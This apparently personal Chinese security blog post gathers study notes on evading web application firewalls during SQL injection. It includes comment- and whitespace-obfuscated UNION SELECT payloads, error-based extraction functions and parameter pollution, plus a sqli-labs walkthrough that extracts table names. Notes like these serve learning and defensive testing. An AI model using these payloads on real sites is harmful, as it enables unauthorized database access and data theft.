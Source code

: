 ```yaml
---
layout:       post
title:        "WAF绕过原理分析笔记"
subtitle:     "null"
date:         2020-10-01 14:55:43
author:       "NeptLiang"
header-img:   "img/home-bg.jpg"
header-mask:  0.3
catalog:      true
multilingual: true
tags:
    - Sec
    - WebSec
    - Bypass
---
```



# 0x00 前言

Null

---


# 0x01 白盒绕过

## 1. 分析代码

## 2. 绕过限制：

1. **大小写变形**：`Or`，`OR`，`oR`，适用于正则没有`/i`
2. **等价替换**：`and`->`&&`, `or`->`||`
3. **双写**：`or`->`oorr`

---


# 0x02 黑盒绕过

参考[seceditor@MottoIN《WAF攻防研究之四个层次Bypass WAF》（mottoin.com/detail/359.html）](http://www.mottoin.com/detail/359.html)

## 一、架构层绕过WAF

1. 寻找**源站**（原始IP地址）->针对云WAF
2. 利用**同网段主机**进行渗透->绕过WAF防护区域
3. 利用**边界漏洞**（如利用SSRF）->绕过WAF防护区域

## 二、资源限制角度绕过WAF

POST**大BODY**（WAF可能会为了性能选择性忽略大数据包）

## 三、协议层面绕过WAF检测

### 1. 协议未覆盖

* 请求方式变换：GET->POST
* `Content-Type: application/x-www-form-urlencoded`
    -> `multipart/form-data`

### 2. 参数污染

检测：`?id=1&id=2`，WAF可能只检测第一个不检测第二个，中间件可能用第二个覆盖第一个

## 四、规则层面的绕过（绕过WAF规则）

### 1. SQL注释符绕过
1. 
    ```sql
    union/**/select
    ```
2. 
    ```sql
    union/*aaaa%0xbbs*/select
    ```
3. 
    ```sql
    union/*aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa*/select  /*（中间插入超长注释）*/
    ```
4. 内联注释：
    ```sql
    /*!xxx*/
    ```

### 2. 空白符绕过

1. MySQL**空白符**：`%09`, `%0A`, `%0B`, `%0D`, `%20`, `%0C`, `%A0`, `/*xxx*/`

2. 正则的**空白符**：`%09`, `%0A`, `%0B`, `%0D`, `%20`
* 例1：
    ```sql
    union%250Cselect
    ```
    （%25即“%”，“%250C”即"%0C")
* 例2：
    ```sql
    union$25A0select
    ```

3. **函数分割**符号  
    1. ```sql
        concat%2520(
        ```  
    2. ```sql
        concat/**/(
        ```  
    3. ```sql
        concat%250C(
        ```  
    4. ```sql
        concat%25a0(
        ```
4. **浮点数**词法解析（WAF可能对int/字符型+union select进行匹配，则用浮点型+union select）
    1. ```sql
        where id=8E0union select
        ```
    2. ```sql
        where id=8.0union select
        ```
    3. ```sql
        where id=\Nunion select
        ```
5. 利用**error-based**进行SQL注入（Error-based SQL注入函数非常容易被忽略）
    1. ```sql
        extractvalue(1,concat(0x5c,md5(3)));
        ```
    2. ```sql
        updatexml(1,concat(0x5d,md5(3),1);
        ```
    3. ```sql
        GeometryCollection((select*from(select*from(select@@version)f)x))
        ```
    4. ```sql
        ploygon((select*from(select name_const(version(),1))x))
        ```
    5. ```sql
        linestring()
        ```
    6. ```sql
        multpoint()
        ```
    7. ```sql
        multilineString()
        ```
    8. ```sql
        multipolygon()
        ```
6. MySQL特殊语法
    ```sql
    select{x table_name}from{x information_schema.tables};
    ```

---


# Fuzz绕过WAF

## 例1：注释符绕过

先测试最基本的：
```sql
union/**/select
```
再测试中间引入特殊字：
```sql
union/*aaaa%0xbbs*/select
```
最后测试注释长度：
```sql
union/*aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa*/select
```
模式：
```sql
union/*something*/select
```

## 例2：sqli-labs题解

1. **检测**：参数加单引号报错
2. **Fuzz**: 把空格（`%20`）替换为`/**/`，然后用脚本或bp在注释中插随机特殊字符进行Fuzz，如数字`1`、字母`a`、`!`、`@`、`#`、`$`、`%`、`'`等，通过响应长度、payload是否符合语法、响应是否报错判断发现`/*%!%2f*/`可绕过该WAF
3. 把参数中的空格（`%20`）全部**替换**为`/*%!%2f*/`进行下一步测试
4. `order by`判断**字段数**为3个
5. `union select 1, 2, 3`，发现`2`和`3`出现在页面上，故这两个位置可回显结果
6. `union select 1, user(), 3`，发现又被拦截，可知可能是`user()`被匹配到，故改成`user/*%!%2f*/()`，查询成功
7. 
    ```sql
    union select 1, (select table_name from information_schema.tables where table_schema=database() limit 0, 1), 3-- 
    ```

---


*//End of Article*

**参考文献**：

* [seceditor@MottoIN《WAF攻防研究之四个层次Bypass WAF》（mottoin.com/detail/359.html）](http://www.mottoin.com/detail/359.html)

![公众号二维码](https://neptliang.github.io/img/Article/WeChatBlog.png)